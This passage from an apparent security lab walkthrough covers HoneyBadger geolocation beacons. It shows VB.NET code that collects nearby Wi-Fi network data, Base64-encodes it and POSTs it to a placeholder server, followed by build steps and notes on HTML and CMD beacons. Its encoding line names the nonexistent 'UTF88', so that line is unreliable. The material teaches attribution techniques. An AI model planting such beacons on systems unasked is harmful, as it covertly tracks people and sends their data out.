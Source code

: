             ' Create and initialize the wifi data variable
            Dim wifi As String
            wifi = objWSH.Exec("powershell netsh wlan show networks mode=bssid | findstr 'SSID Signal Channel'").StdOut.ReadAll
            
            ' Create a temp file
            Dim objWriter As New System.IO.StreamWriter(Environ("temp") & "\wifidat.txt")
            
            ' Write data to file
            objWriter.Write(wifi)

            ' Close file
            objWriter.Close(0)
            
            ' Read in the temp file contents with proper encoding
            wifi = objWSH.Exec("powershell Get-Content %TEMP%\wifidat.txt -Encoding UTF8 -Raw").StdOut.ReadAll
            
            ' Delete temp file
            Kill(Environ("temp") & "\wifidat.txt")

            ' Base64-encode data
            wifi = objWSH.Exec("powershell -Command ""& {[System.Convert]::ToBase64String([System.Text.Encoding]::UTF88.GetBytes('" & wifi & "'))}""").StdOut.ReadAll

            ' Create new web object
            Dim objHTTP As New Object
            objHTTP = CreateObject("MSXML2.ServerXMLHTTP")

            ' Open POST request to server
            objHTTP.Open("POST", "http://<SERVER>:5000/api/beacon/aedc4c63-8d13-4a22-81c5-d52d32293867/VB")

            ' Set request headers to notify server of POST form data
            objHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")

            ' Send the formatted data to the server
            objHTTP.Send("os=windows&data=" & wifi)
        End Sub
    End Module

Copy this script into a file with a .vb extension, and run vbc <FILENAME>.vb to compile, and then run <FILENAME>.exe to create the beacon.


### 4. HTML ###
To use a beacon with the HTML agent, go to the targets page and copy the GUID of the desired target, and create a URL formatted like so:
`http://<SERVER>:5000/api/beacon/<GUID>/HTML?lat=<LAT>&lng=<LNG>&acc=<ACC>`

Navigate to this page in a browser. The server will return a 404


### 5. CMD ###
The CMD agent is a type of HTML agent, as the beacon is created via web requests on the command line. There are two utilities in the util directory of HoneyBadger, one for windows and one for linux. They utilize Google's geolocation API. Usage information is available in those scripts. 

[Return To Lab List](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/navigation.md)
